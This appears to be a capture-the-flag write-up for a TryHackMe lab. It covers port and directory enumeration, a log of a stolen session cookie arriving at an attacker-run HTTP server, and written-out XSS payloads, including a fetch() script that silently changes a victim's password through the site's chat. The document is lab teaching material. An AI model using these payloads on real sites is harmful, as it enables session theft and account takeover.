 # Enumeration

## Nmap

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH (22)

- Password authen is enable.

```bash
root@ip-10-10-177-188:~# ssh root@worldwap.thm
The authenticity of host 'worldwap.thm (10.10.212.193)' can't be established.
ECDSA key fingerprint is SHA256:lxthyLGSYAX2dtxPWVAhzHwn3iOtpwjL2Enj4NLpF7Q.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'worldwap.thm,10.10.212.193' (ECDSA) to the list of known hosts.
root@worldwap.thm's password: 
```

## HTTP(80)

### Dirsearch

```bash
[16:04:22] 301 -  310B  - /api  ->  http://worldwap.thm/api/
[16:04:22] 200 -    0B  - /api/
[16:04:43] 301 -  317B  - /javascript  ->  http://worldwap.thm/javascript/
[16:04:47] 200 -    0B  - /logs.txt
[16:04:57] 301 -  317B  - /phpmyadmin  ->  http://worldwap.thm/phpmyadmin/
[16:04:59] 200 -    3KB - /phpmyadmin/doc/html/index.html
[16:05:01] 200 -    3KB - /phpmyadmin/index.php
[16:05:01] 200 -    3KB - /phpmyadmin/
[16:05:02] 301 -  313B  - /public  ->  http://worldwap.thm/public/
[16:05:03] 200 -  490B  - /public/
```

### Vhost

- Nothing is interesting

### Website Features

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(1).png?raw=true)

```bash
http://login.worldwap.thm/
```

### Dirsearch ( http://login.worldwap.thm/ )

```bash
[16:33:38] 301 -  330B  - /__pycache__  ->  http://login.worldwap.thm/__pycache__/
[16:33:40] 200 -    5KB - /admin.py
[16:33:47] 200 -  639B  - /assets/
[16:33:47] 301 -  325B  - /assets  ->  http://login.worldwap.thm/assets/
[16:33:51] 302 -    0B  - /chat.php  ->  login.php
[16:33:55] 200 -    0B  - /db.php
[16:34:04] 301 -  329B  - /javascript  ->  http://login.worldwap.thm/javascript/
[16:34:06] 200 -  960B  - /login.php
[16:34:06] 302 -    0B  - /logout.php  ->  login.php
[16:34:06] 200 -    0B  - /logs.txt
[16:34:13] 301 -  329B  - /phpmyadmin  ->  http://login.worldwap.thm/phpmyadmin/
[16:34:14] 200 -    3KB - /phpmyadmin/doc/html/index.html
[16:34:14] 200 -    3KB - /phpmyadmin/
[16:34:14] 200 -    3KB - /phpmyadmin/index.php
[16:34:16] 302 -    0B  - /profile.php  ->  login.php
[16:34:19] 403 -  283B  - /server-status
[16:34:19] 403 -  283B  - /server-status/
[16:34:20] 200 -   96B  - /setup.php

```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(3).png?raw=true)

- use javascript payload to collect cookie

```bash
root@ip-10-10-177-188:~# python3.9 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.212.193 - - [15/May/2025 16:28:03] "GET /?cookie=PHPSESSID=n0rl3obdguracs47ajh032h276 HTTP/1.1" 200 -
10.10.212.193 - - [15/May/2025 16:28:03] "GET /?cookie1=UEhQU0VTU0lEPW4wcmwzb2JkZ3VyYWNzNDdhamgwMzJoMjc2 HTTP/1.1" 200 -
                                                        (PHPSESSID=n0rl3obdguracs47ajh032h276)
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(4).png?raw=true)

### 

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(5).png?raw=true)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(6).png?raw=true)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(7).png?raw=true)

- XXS

```bash
<script>alert(document.cookie)</script>
```

```bash
<script>fetch('change_password.php',{method:'POST',headers:{'Content-Type':'application/x-wwwform-urlencoded'},body:"new_password=newPass"});</script>
```

- use this script  in the chat

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(8).png?raw=true)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/What's%20your%20name%20(THM)/Images/image%20(9).png?raw=true)
